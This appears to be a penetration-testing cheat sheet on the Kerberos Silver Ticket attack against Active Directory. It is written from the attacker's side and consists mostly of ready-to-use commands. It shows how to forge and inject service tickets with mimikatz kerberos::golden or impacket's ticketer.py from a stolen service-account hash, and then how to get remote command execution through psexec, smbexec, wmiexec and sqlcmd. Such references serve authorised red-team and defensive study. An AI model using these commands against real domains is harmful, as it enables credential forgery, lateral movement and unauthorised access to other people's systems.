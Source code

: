 # Silver Ticket

## Silver Ticket

Silver Tickets enable an attacker to create forged service tickets (TGS tickets). In this attack, user/group permissions in a Service Ticket are blindly trusted by the application on a target server running in the context of the service account. We can forge our own Service Ticket (Silver Ticket) to access a specific service (e.g. IIS, MSSQL) with the permissions of the user or service account. If the SPN/service account is used across multiple servers, we can leverage our Silver Ticket against all.

> Note: Unlike a Golden Ticket, a silver ticket works for one service only.

* Example of PTT via compromised MSSQLSvc hash: https://stealthbits.com/blog/impersonating-service-accounts-with-silver-tickets/

Create a silver ticket via compromised host:

```powershell
# obtain SID of domain (remove RID -XXXX) at the end of the user SID string.
cmd> whoami /user
corp\offsec S-1-5-21-1602875587-2787523311-2599479668[-1103]

# generate the Silver Ticket (TGS) and inject it into memory
mimikatz > kerberos::golden /user:[user_name] /domain:[domain_name].com /sid:[sid_value] 
        /target:[service_hostname] /service:[service_type] /rc4:[hash] /ptt
        
# abuse Silver Ticket (TGS)
cmd> psexec.exe -accepteula \\<remote_hostname> cmd   # psexec
cmd> sqlcmd.exe -S [service_hostname]                 # if service is MSSQL
```

Use a silver ticket in Kali Linux:

```bash
# generate the Silver Ticket with NTLM
$ python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# set the ticket for impacket use
$ export KRB5CCNAME=<TGT_ccache_file_path>

# execute remote commands with any of the following by using the TGT
$ python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
$ python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
$ python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
